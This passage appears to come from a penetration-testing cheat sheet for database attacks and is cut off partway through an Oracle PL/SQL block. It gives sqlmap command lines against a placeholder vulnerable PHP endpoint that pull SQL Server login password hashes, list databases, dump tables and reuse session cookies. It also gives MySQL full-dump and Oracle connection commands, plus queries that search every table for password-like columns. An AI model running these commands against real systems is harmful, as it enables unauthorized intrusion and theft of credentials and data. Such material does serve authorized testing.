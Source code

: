 ```
sqlmap -u "http://host.com/vulnerable.php?param=12345" --dbms "Microsoft SQL Server" --sql-query="select name,master.sys.fn_sqlvarbasetostr(password_hash) from master.sys.sql_logins
sqlmap -u "http://host.com/vulnerable.php?param=12345" --dbms "Microsoft SQL Server" --dbs
sqlmap -u "http://host.com/vulnerable.php?param=12345" --dbms "Microsoft SQL Server" --dump -D database -T table
sqlmap -u "http://host.com/vulnerable.php?param=12345" --cookie "cookie1=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
sqlmap -r POST.txt -p field
```
### MySQL
```
mysql -u <username> -p --port <port> -h <host>
mysqldump -h <host> -u <username> -p -f --port <port> --events --routines --triggers --all-databases > MySQLData.sql
```
### Oracle
```
sqlplus "username/password@(DESCRIPTION=(ADDRESS=(PROTOCOL=TCP)(HOST=hostname)(PORT=port))(CONNECT_DATA=(SERVER=dedicated)(SERVICE_NAME=servicename)))"
```
### --------- sqlplus commands -----------
### improve sqlplus console output 
```
SET PAGESIZE 50000;
```
### list tablespaces
```
SELECT TABLESPACE_NAME FROM USER_TABLESPACES;
```
### list all tables 
```
SELECT owner, table_name FROM dba_tables;
```
### find table with given column name
```
SELECT owner, table_name, column_name FROM all_tab_columns WHERE UPPER(column_name) = UPPER('PASSWORD');
SELECT owner, table_name, column_name FROM all_tab_columns WHERE UPPER(column_name) LIKE '%PASS%';
```
### find table and count rows for given column name
```
SET SERVEROUTPUT ON
DECLARE
val NUMBER;
BEGIN
FOR I IN (SELECT DISTINCT owner, table_name FROM all_tab_columns WHERE UPPER(column_name) LIKE '%PASS%') LOOP
EXECUTE IMMEDIATE 'SELECT count(*) FROM ' || i.owner || '.' || i.table_name INTO val;
DBMS_OUTPUT.PUT_LINE(i.owner || '.' || i.table_name || ' ==> ' || val );
END LOOP;
END;
/
```
### find string in whole database for columns type NVARCHAR2
```
SET SERVEROUTPUT ON SIZE 100000

DECLARE
match_count INTEGER;
```